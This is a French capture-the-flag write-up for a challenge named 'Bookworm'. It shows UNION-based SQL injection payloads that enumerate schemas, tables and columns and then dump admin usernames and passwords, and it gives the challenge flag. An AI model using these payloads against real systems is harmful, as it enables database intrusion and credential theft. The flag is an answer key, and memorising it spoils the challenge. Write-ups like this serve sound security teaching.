 # Bookworm

## Write-up FR

## Première partie du défi

### Étape 1 : Découverte de l'injection SQL

Lorsque vous accédez au site de recherche de livres, vous remarquez une vulnérabilité d'injection SQL dans le champ de recherche. Cela signifie que vous pouvez potentiellement interagir avec la base de données sous-jacente.

#### Base de données
Pour commencer, vous voulez obtenir les noms de toutes les bases de données disponibles. Vous pouvez utiliser la commande suivante dans le champ de recherche :

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata-- -`

*Cela récupérera les noms de toutes les bases de données et les affichera sous forme de chaîne concaténée.*

#### Tables
Après avoir obtenu les noms des bases de données, vous pouvez choisir une base de données spécifique (par exemple, "library") et récupérer les noms de toutes les tables dans cette base de données :

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema="library"-- -`

*Cela récupérera les noms de toutes les tables dans la base de données "library".
*
#### Colonnes
Maintenant que vous avez les noms de tables, vous pouvez sélectionner une table spécifique (par exemple, "Admin") et récupérer les noms de toutes les colonnes dans cette table :

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name="Admin"-- -`

*Cela récupérera les noms de toutes les colonnes dans la table "Admin".*

#### Flag 1
Enfin, vous pouvez utiliser les noms de colonnes que vous avez obtenus pour extraire les données de la table "Admin" et ainsi obtenir le Flag 1. Voici la commande :

`-1' UNION SELECT 1, GROUP_CONCAT('Username: ', username, ' | Password: ', password) FROM Admin-- -`

*Cela récupérera les informations d'identification des utilisateurs stockées dans la table "Admin" sous forme de chaîne concaténée.*

**Flag 1 : polycyber{SQL_Br3ak0ut}**

## Deuxième partie du défi
